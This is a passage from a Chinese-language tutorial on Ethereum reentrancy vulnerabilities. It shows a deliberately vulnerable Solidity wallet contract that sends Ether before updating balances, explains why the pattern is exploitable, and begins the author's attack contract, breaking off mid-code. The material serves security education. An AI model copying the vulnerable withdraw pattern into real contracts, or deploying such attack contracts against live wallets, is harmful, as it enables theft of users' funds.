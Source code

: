 ![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz7ga3cmq8j20ti0fhn0k.jpg)

重入漏洞，在我刚开始看这个漏洞类型的时候，还是比较懵逼的，因为从字面上来看，“重入” 其实可以简单理解成 “递归” 的意思，那么在传统的开发语言里 “递归” 调用是一种很常见的逻辑处理方式，那在 Solidity 里为什么就成了漏洞了呢。在上面一部分也有讲到，在以太坊智能合约里有一些内在的执行限制，如 Gas Limit，来看下面这段代码：

```solidity
pragma solidity ^0.4.10;

contract IDMoney {
     address owner;
     mapping (address => uint256) balances;  // 记录每个打币者存入的资产情况

event withdrawLog(address, uint256);

function IDMoney() { owner = msg.sender; }
     function deposit() payable { balances[msg.sender] += msg.value; }
     function withdraw(address to, uint256 amount) {
         require(balances[msg.sender] > amount);
         require(this.balance > amount);

withdrawLog(to, amount);  // 打印日志，方便观察 reentrancy

to.call.value(amount)();  // 使用 call.value()() 进行 ether 转币时，默认会发所有的 Gas 给外部
         balances[msg.sender] -= amount;
     }
     function balanceOf() returns (uint256) { return balances[msg.sender]; }
     function balanceOf(address addr) returns (uint256) { return balances[addr]; }
 }
```



这段代码是为了说明重入漏洞原理编写的，实现的是一个类似公共钱包的合约。任何人都可以向 IDMoney 存入相应的 Ether，合约会记录每个账户在该合约里的资产（Ether）情况，账户可以查询自身/他人在此合约中的余额，同时也能够通过 withdraw 将自己在合约中的 Ether 直接提取出来转给其他账户。

初识以太坊智能合约的人在分析上面这段代码时，应该会认为是一段比较正常的代码逻辑，似乎并没有什么问题。但是我在之前就说了，以太坊智能合约漏洞的出现其实跟自身的语法（语言）特性有很大的关系。这里，我们把焦点放在 withdraw(address, uint256) 函数中，合约在进行提币时，使用 require 依次判断提币账户是否拥有相应的资产和该合约是否拥有足够的资金可供提币（有点类似于交易所的提币判断），随后使用 to.call.value(amount)(); 来发送 Ether，处理完成后相应修改用户资产数据。

仔细看过第一部分 I.3 的同学肯定发现了，这里转币的方法用的是 call.value()() 的方式，区别于 send() 和 transfer() 两个相似功能的函数，call.value()() 会将剩余的 Gas 全部给予外部调用（fallback 函数），而 send() 和 transfer() 只会有 2300 的 Gas 量来处理本次转币操作。如果在进行 Ether 交易时目标地址是个合约地址，那么默认会调用该合约的 fallback 函数（存在的情况下，不存在转币会失败，注意 payable 修饰）。

上面说了这么多，显然地，在提币或者说是合约用户在转币的过程中，存在一个递归 withdraw 的问题（因为资产修改在转币之后），攻击者可以部署一个包含恶意递归调用的合约将公共钱包合约里的 Ether 全部提出，流程大致是这样的：

![](https://ws1.sinaimg.cn/thumbnail/b6de3d7dgy1fz78oh9n88j20n7064q41.jpg)

（读者可以直接先根据上面的 IDMoney 合约代码写出自己的攻击合约代码，然后在测试环境中进行模拟）

我实现的攻击合约代码如下：

```Solidity 
contract Attack {
     address owner;
     address victim;

modifier ownerOnly { require(owner == msg.sender); _; }

function Attack() payable { owner = msg.sender; }

// 设置已部署的 IDMoney 合约实例地址
     function setVictim(address target) ownerOnly { victim = target; }

// deposit Ether to IDMoney deployed
     function step1(uint256 amount) ownerOnly payable {
         if (this.balance > amount) {
             victim.call.value(amount)(bytes4(keccak256("deposit()")));
```